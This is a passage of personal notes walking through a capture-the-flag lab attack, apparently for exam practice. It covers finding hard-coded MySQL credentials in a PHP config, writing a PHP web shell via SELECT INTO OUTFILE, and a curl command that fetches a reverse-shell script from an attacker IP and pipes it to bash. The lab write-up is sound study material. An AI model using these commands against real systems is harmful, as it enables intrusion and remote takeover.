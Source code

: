 Now will try to login and see what data we can get from it 
```
mysql -u <username> -p -h 192.168.100.1
```

```
mysql -u admin -p -h 192.168.100.1
```

```
DBManagerLogin!
```

so this is not working which means we have to do osint in the file to get the password that might work

db_connect.php looks fishy
![[Pasted image 20240817172018.png]]


BINGOOOOOOOOOOOOOOO
```
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```


```
mysql -u admin -p -h 192.168.100.1
```

```
!123SecureAdminDashboard321!
```


>[! important] Important

This happened here and might happened in the exam as well. I was not able to get the mysql shell in the dumb shell and after i changed it into interactive shell i was able to get it.

Taking help of Chat GPT

![[Pasted image 20240817224657.png]]

```
select username,password from users limit 10;
```

```
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA      
```


```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
![[Pasted image 20240817230257.png]]


We will try to get the shell from the Docker now
Attacker -> Linux Server  (RCE PHP injection)
Linux -> Docker (PHP injection via SQL) 
Docker -> Attacker (reverse shell)
```
curl 192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.51.9.13%3A80%2Fphp_rev.sh%7Cbash%20%26
```

![[Pasted image 20240818004729.png]]

```
www-data@ip-10-201-11-33:/var/www$ cat user.txt
cat user.txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

